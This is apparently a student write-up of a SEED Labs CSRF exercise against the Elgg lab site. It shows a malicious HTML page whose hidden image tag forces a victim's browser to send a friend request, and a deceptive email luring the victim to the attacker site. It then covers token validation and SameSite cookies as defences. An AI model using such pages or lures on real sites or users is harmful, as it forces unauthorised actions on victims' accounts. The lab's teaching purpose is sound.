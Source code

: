 # DOTA Lab 4 Part 4

The task 3 is to make Alice add Samy as friends using CSRF by GET method.

## Instruction

Capture the GET request used to add friends, we can get the URL

```
http://www.seed-server.com/action/friends/add?friend=59
```

where 59 is the userid of Alice, obtained by the traffic of homepage.

Then, Samy needs to build a malicious website that will hijack Alice's cookies and redirct to `seed-server.com`

```html
<!Doctype html>
<html>
<head>
<title>Apache</title>
</head>
<body>
<img src="http://www.seed-server.com/action/friends/add?friend=59">
<h1>It works!</h1>
<body>
</html>
```

Finally, Samy will send the link of malicious website to trick Alice to click, triggering the CSRF attack. Send an email to Alice:

```
Title: Found an interesting website
Body:

Hi Alice,

Here's an interesting website I found about xxx, check it out!

link: http://www.attacker32.com
```

Then check Alice's friend lists. We can see Alice is Samy's Friend now.

## Prevention

We can prevent from being attacked by CSRF by enabling two-token verification.

Enter `/var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security` folder and edit `Csrf.php` source file. Find function `validate` and comment the first line

```
# return;
```

The countermeasures is that the tokens

```
elgg.security.token.__elgg_ts;
elgg.security.token.__elgg_token;
```

are only generated when user login and stored at the webpages instead of cookies. Thus, the friend request is valid if and only if user send it from the its homepage. Everytime the request is send, the validation checks the token.

### Other Countermeasure

We can enable the setting `SameSite Cookie` at the field of HTTP response to ensure that the brower will not give cookie to the cross-site referring.

